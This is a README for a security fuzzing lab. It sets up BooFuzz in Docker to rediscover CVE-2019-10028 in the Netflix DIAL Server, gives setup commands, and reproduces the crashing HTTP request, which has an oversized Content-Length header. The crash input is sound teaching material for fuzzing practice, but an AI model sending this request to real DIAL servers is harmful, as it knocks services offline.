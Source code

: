 # Netflix DIAL Server Example
In this example we rediscover a bug in Netflix DIAL Server assigned to 
[CVE-2019-10028](https://nvd.nist.gov/vuln/detail/CVE-2019-10028) with a CVSS score of 7.5.

## Setup
To setup this lab it is as simple as hacking `Docker` and `Docker compose` command installed.
Make sure your docker compose version is above version 2 with:
```bash
$ docker compose version
Docker Compose version v2.4.1
```

Now all you have to do is run:
```bash
docker compose up
```

You should see a lot of data being run and fill up the stdout of your terminal. In another 
terminal you can verify two conatiners are running:

```bash
$ docker ps
CONTAINER ID   IMAGE                                   COMMAND                  CREATED        STATUS          PORTS                                           NAMES
2ecd00fd9968   netflix-dial-http-server_boofuzz        "python3 /fuzzer.py"     20 hours ago   Up 32 seconds   0.0.0.0:26000->26000/tcp, :::26000->26000/tcp   netflix-dial-http-server-boofuzz-1
43173e5a2321   netflix-dial-http-server_netflix-dial   "/fuzz/server/dialse…"   20 hours ago   Up 32 seconds                                                   netflix-dial-http-server-netflix-dial-1
```

The network is setup like the following:

![](./images/network.png)

This means you _only_ access the `boofuzz` instance from your host network. To check on the BooFuzz progress
you can open this address in your browser: [http://localhost:26000](http://localhost:26000). The interface
should look like:

![](./images/boofuzz.png)

After running for around two minutes, you should notice that your containers all stop running. This is because
BooFuzz has sucessfuly crashed the Netflix DIAL Server. If you look at the last thing BooFuzzer sent before 
going down you will find the crashing packet:

```
netflix-dial-http-server-boofuzz-1       | [2022-04-29 21:39:18,146]   Test Step: Fuzzing Node 'HTTP-Request'
netflix-dial-http-server-boofuzz-1       | [2022-04-29 21:39:18,146]     Info: Sending 65 bytes...
netflix-dial-http-server-boofuzz-1       | [2022-04-29 21:39:18,146]     Transmitted 65 bytes: 47 45 54 20 2f 69 6e 64 65 78 2e 68 74 6d 6c 20 48 54 54 50 2f 31 2e 31 0d 0a 43 6f 6e 74 65 6e 74 2d 4c 65 6e 67 74 68 3a 20 36 31 34 38 39 31 34 36 39 31 32 33 36 35 31 37 32 30 37 0d 0a 0d 0a b'GET /index.html HTTP/1.1\r\nContent-Length: 6148914691236517207\r\n\r\n'
```

It should look something like this, which is the same as the CVE provided [poc](./poc). Congrats, you have
rediscovered a major bug using BooFuzz.

